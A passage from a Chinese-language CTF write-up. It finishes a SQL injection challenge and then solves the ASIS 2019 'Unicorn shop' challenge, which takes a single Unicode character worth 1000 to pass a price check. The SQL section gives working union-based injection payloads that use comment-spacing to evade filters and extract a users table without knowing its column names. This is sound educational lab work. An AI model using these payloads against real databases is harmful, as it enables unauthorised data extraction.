 *   就很好奇这是怎么找到的。接下来无法继续得到列名。所以学到新知识点，[无列名注入](https://zhuanlan.zhihu.com/p/98206699)。

*   看着吧，好像不好理解为什么能注入出来，但操作是可行的。所以最终payload

    ```
    -1'union/**/select/**/1,database(),(select/**/group_concat(b)/**/from(select/**/1,2,3/**/as/**/b/**/union/**/select*from/**/users)s),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,1' 
    ```

*   核心

    ```
    (select/**/group_concat(b)/**/from(select/**/1,2,3/**/as/**/b/**/union/**/select*from/**/users)s) 
    ```

*   首先就是确定是哪个表，测试发现前面的会提示表不存在，只有`users`不会，然后就是 `1,2,3` 增加或减少会提示列数不同。再就是as代替反引号，类似指定别名 。不过，我没用as也成功了，用反引号好像也可以。

    ```
    -1'union/**/select/**/1,database(),(select/**/group_concat(`3`)/**/from(select/**/1,2,3/**/union/**/select*from/**/users)s),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,1' 
    ```

*   就这样结束。虚假的做题，没wp就不会。

*   再来看一下做题遇到了啥？首先就是注入点有点不好找，其次`mysql.innodb_table_stats` 不知道，然后是无列名注入第一次遇到。。。

### 五、[ASIS 2019]Unicorn shop

*   一个商店，购买最后一个独角兽出flag，购买前面的商品都是提示操作失败，购买最后提示只能输入一个字符。 在价钱栏输入字符提示解析错误。

*   我感觉，有很明显的象征引导你往`Unicode`编码想，但就是想不到。。。还有一个不算提示的提示。说`utf-8`很重要
    ![在这里插入图片描述](img/fa7c4a91f36c641d1256afbd3e4b4499.png)

*   也就是说一个只能用一个字符，值大于1377。才能购买。

*   结果就是很简单的找一个`Unicode`编码大于1337的字符就行。在[这里](https://www.compart.com/en/unicode)搜索`thousand(千)` 随便找一个或者直接找也行，比如说`𐡟` ，输入价格，就成功出flag。因为它代表数值是1000
    ![在这里插入图片描述](img/c08d23a1088308be1bb2c74ce096b668.png)
